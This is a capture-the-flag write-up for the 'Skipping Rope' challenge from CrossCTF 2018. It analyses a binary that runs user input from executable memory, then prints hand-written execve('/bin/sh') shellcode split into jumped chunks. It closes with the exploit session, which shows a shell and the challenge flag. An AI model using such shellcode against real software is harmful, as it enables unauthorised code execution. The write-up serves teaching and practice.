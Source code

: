 # Skipping Rope

> How high and how fast can you go on the skipping rope?
>  
> nc ctf.pwn.sg 1501
>  
> Creator - amon (@nn_amon)


### Program analysis

The binary is not stripped, and has no PIE. As the assembly will later show, its vulnerability to stack smashing plays no role here as we can execute instructions in the executable `mmap` memory.
```
$ file skippingrope
skippingrope: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=38456d1c9186fddf7bdcacfd49058963a8f23815, not stripped
```
```
checksec skippingrope
[*] '/home/solomonbstoner/Desktop/CTF Guides/xctf 2018/skipping rope/skippingrope'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

Now let's take a look at the assembly of the program. `<main>` only calls `<skipping_rope>`. That is our function of interest.

![xctf_2018_skipping_rope_function_of_interest.png](xctf_2018_skipping_rope_function_of_interest.png)


The function calls `mmap(0, 0x2000, 7, 0x22, 0xffffffff, 0)`. The argument `7` is a binary OR of `PROT_EXEC | PROT_READ | PROT_WRITE`, meaning the mapped memory is readable, writable and executable.

`mmap` returns the memory address of the mapped memory. In this case it returns `0x7ffff7ff5000`. `info proc mappings` show the mapped memory.
```
(gdb) p/x $rax
$1 = 0x7ffff7ff5000
(gdb) info proc mappings
process 8944
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      [...]
      0x7ffff7ff5000     0x7ffff7ff7000     0x2000        0x0 
      [...]
```

The screenshot below shows that the function reads user input into the first 6 bytes of every 16 bytes of the mapped memory. A total of 1536 bytes are read. 

![xctf_2018_skipping_rope_reading_into_memory.png](xctf_2018_skipping_rope_reading_into_memory.png)


After reading user input, the function executes user input starting at the beginning of the mapped memory space.

![xctf_2018_skipping_rope_after_reading.png](xctf_2018_skipping_rope_after_reading.png)

Given an input `"AAAAA....AAAA"`, this is how the mapped memory looks like.
```
(gdb) x/32wx $rdx
0x7ffff7ff5000:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5010:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5020:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5030:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5040:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5050:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5060:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5070:	0x41414141	0x00004141	0x00000000	0x00000000
(gdb) 
```
We received segfault soon after as `rip` was loaded with `0x4141414141414141`. Next stop was to find the appropriate instructions input so that upon execution, we'd get a shell.

### Successful exploit

Initially the plan was to use `read` to read over the remaining 10 bytes in the mapped memory that was not written earlier to make it easier to include a binsh shell. It did not work. `syscall` did not even call `read` at all. (Well... its returned value showed 0x0, which means the read should have been successful, but the memory it was supposed to read into showed no changes.

Then we thought to use `execve('sh', null, null)` to get the bash shell. (because `push 0x0068732f6e69622f` takes more than 6 bytes). `syscall` returned either -14 or -2, and no shell was executed.

Pushing values by bytes (e.g. `push 0x00; push 0x68; push 0x73;` etc) does not work as well. `RSP` decreases by QWORD for each `push`, so there are alot of null bytes in between the characters.

Lastly we realised we could `mov` the string `'/bin/sh'` into a register byte by byte before pushing the register's value into the stack. This is how we managed to call `execve('/bin/sh', null, null)` with assembly instructions less than 4 bytes. We cannot use all 6 bytes because the last 2 bytes are used for the `jmp` instruction to jump to the next 6 bytes. 
```
xor rax, rax
jmp #0xa


mov al, 0x68
mov ah, 0x00			# rax = 0x0000000000000068
jmp #0xa

shl rax, 16
jmp #0xa

mov al, 0x2f
mov ah, 0x73			# rax = 0x000000000068732f
jmp #0xa

shl rax, 16
jmp #0xa

mov al, 0x69
mov ah, 0x6e			# rax = 0x00000068732f6e69
jmp #0xa

shl rax, 16
jmp #0xa

mov al, 0x2f
mov ah, 0x62			# rax = 0x0068732f6e69622f
jmp #0xa

push rax
mov rdi, rsp
jmp #0xa

xor rax, rax
jmp #0xa

mov ax, 0x3b
jmp #0xa

xor rsi, rsi
jmp #0xa

xor rdx, rdx
jmp #0xa

syscall
```

The whole Python script we created is in `soln_for_skipping_rope.py`. After running the script, we got a shell and the flag.
```
$ python2 soln_for_skipping_rope.py 
[+] Opening connection to ctf.pwn.sg on port 1501: Done
[*] Switching to interactive mode
$ whoami
skippingropeuser
$ find . -iname "flag"
find: './root': Permission denied
find: './var/lib/apt/lists/partial': Permission denied
find: './var/spool/cron/crontabs': Permission denied
find: './var/spool/rsyslog': Permission denied
find: './var/cache/ldconfig': Permission denied
find: './var/cache/apt/archives/partial': Permission denied
find: './proc/tty/driver': Permission denied
find: './proc/1/task/1/fd': Permission denied
find: './proc/1/task/1/fdinfo': Permission denied
find: './proc/1/task/1/ns': Permission denied
find: './proc/1/fd': Permission denied
find: './proc/1/map_files': Permission denied
find: './proc/1/fdinfo': Permission denied
find: './proc/1/ns': Permission denied
./home/skippingropeuser/flag
$ cat ./home/skippingropeuser/flag
CrossCTF{With_a_hip_hop_the_hippie_to_the_hippie}
```

